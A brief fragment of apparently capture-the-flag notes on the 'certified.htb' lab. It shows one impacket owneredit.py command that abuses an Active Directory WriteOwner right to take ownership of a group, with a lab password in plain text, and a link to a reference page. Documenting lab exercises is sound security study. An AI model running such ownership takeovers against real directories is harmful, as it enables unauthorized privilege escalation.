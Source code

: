Change owner of a group

![[Pasted image 20241105010915.png]]

```bash
owneredit.py -action write -owner 'judith.mader' -target 'judith.mader' 'certified.htb'/'judith.mader':'judith09'
```


https://notes.shashwatshah.me/windows/active-directory/writeowner

Now have ownership over group:


![[Pasted image 20241105011745.png]]